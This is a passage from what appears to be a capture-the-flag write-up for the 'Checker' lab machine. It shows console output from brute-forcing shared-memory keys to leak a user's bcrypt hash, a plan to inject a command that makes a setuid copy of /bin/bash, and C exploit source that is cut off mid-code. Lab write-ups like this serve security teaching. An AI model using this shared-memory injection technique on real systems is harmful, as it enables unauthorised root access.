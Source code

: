 We compile and run the script and then run the `check-leak.sh` command as root in another shell.

```console
reader@checker.htb:~$ gcc -o leak leak.c
reader@checker.htb:~$ ./leak 
Brute forcing shared memory addresses...
[+] Got a hit at key: 0x8117c
[+] Reading content: Leaked hash detected at Sun Feb 23 15:36:21 2025 > $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy

reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x8117C as temp location
User will be notified via bob@checker.htb
```

The leaked memory contains the password of bob, as we expected. So in order to exploit this we need to overwrite the shared memory location (replace the password hash with injection payload). We can see that the password hash is captured after the `>` sign, so this is the place where we can place our command injection payload. Our final exploit will copy `/bin/bash` to `/tmp` and add the `setuid` bit to it.


```c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>

#define SHM_SIZE 1024  // Size of the shared memory segment

int main() {
    printf("Brute forcing shared memory addresses...\n");
    while (1) {
        // Step 0: generate random key
        time_t current_time = time(NULL);
        srand((unsigned int)current_time);
        int random = rand();
        key_t SHM_KEY = random % 0xfffff;

        // Step 1: Get shared memory segment ID
        // IPC_CREAT will create the segment if it does not exist.
        int shmid = shmget(SHM_KEY, SHM_SIZE, IPC_CREAT | 0666);  // 0666 grants read and write permission

        if (shmid == -1) {
            perror("shmget failed");
            return 1;
        }

        // Step 2: Attach the shared memory segment to our address space
        char *shm_addr = (char *)shmat(shmid, NULL, 0);  // Attach at any available location

        if (shm_addr == (char *)-1) {
            perror("shmat failed");
            return 1;
        }

        // Check if memory segment is not empty
        if (shm_addr[0] != '\0') {
            // Step 3: Read from the shared memory
            printf("[+] Got a hit at key: 0x%lx\n", (unsigned long)SHM_KEY);
            printf("[+] Reading content: %s\n", shm_addr);
```